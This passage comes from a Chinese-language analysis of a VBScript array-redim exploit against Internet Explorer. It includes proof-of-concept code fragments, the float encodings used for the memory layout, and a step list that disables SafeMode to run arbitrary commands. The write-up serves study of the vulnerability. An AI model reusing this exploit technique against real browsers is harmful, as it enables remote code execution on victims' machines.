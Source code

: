 ```html
    arrayA(arraySize) = 10
    arrayB(0) = 1.123456789012345678901234567890
    type1 = 1

    If (IsObject(arrayA(arraySize + 1)) = False) Then
        if(vartype(arrayA(arraySize + 1)) <> 0) Then
            If(IsObject(arrayA(arraySize + 2)) = False ) Then
                type1=VarType(arrayA(arraySize + 2))
           end if
        end if
    end if

    If(type1=&h2f66) Then
        Over = True
    End If

    redim  Preserve arrayA(arraySize)
end function

function CreateArray()
  On Error Resume Next
  dim i
  CreateArray = False

  For i = 0 To 400
    If Over() = True Then
       CreateArray = True
       Exit For
    End If
  Next
end function

Begin()
</script>
</body>
</html>
```

```python
// 下面是poc中用到的浮点数在内存中的表现形式,转换很简单，使用 python 的 struct: struct.pack('>d', n).encode('hex')
1.123456789012345678901234567890 => 0x3ff1f9add3746f66
1.69759663316747E-313  =>  0x0000000800000008
6.36598737437801E-314  =>  0x0000000300000003
1.74088534731324E-310  =>  0x0000200c0000200c
```



整个poc执行流程如下：

1. 初始数组`arrayA`, `arrayB`。
2. 通过循环`redim` 使得`arrayA`和`arrayB`的`pvData`空间连续(中间相差一个heap指针)。(`CreateArray`函数)
3. 通过定义函数指针赋给变量的方法获取获取`CScriptEntryPoint`对象地址,从而找到`COleScript`对象，然后利用漏洞将伪造的数组结构`myarray`布局到内存中，使得成功访问到`SafeMode`并修改其属性值为`0`，此时已开始上帝模式。(`Trigger`函数)
4. 执行自定义的命令。(`RunWin32Exe`函数)
